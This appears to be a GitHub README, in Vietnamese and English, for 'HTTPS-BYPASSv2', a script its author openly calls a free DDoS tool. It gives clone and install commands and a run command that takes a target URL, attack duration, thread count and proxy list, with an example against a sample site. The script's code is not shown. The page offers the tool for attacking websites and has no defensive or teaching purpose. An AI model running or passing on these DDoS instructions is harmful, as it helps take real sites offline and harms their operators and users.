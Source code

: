 # HTTPS-BYPASSv2

SCRIPT DDOS FREE BY : DagTriZaker <3 

Không đem bán dưới mọi hình thức hãy là người dùng văn minh :V

Lệnh SETUP & RUN

git clone https://github.com/dangminhtri123/HTTPS-BYPASSv2

cd HTTPS-BYPASSv2

npm i fake-useragent

node HTTPS-BYPASSv2.js + URL/TARGET + TIME + THREADS + LIST PROXY :V

VÍ DỤ :

node HTTPS-BYPASSv2.js https://dagtriDepTrai.com 60 5 PROXYVIP.txt
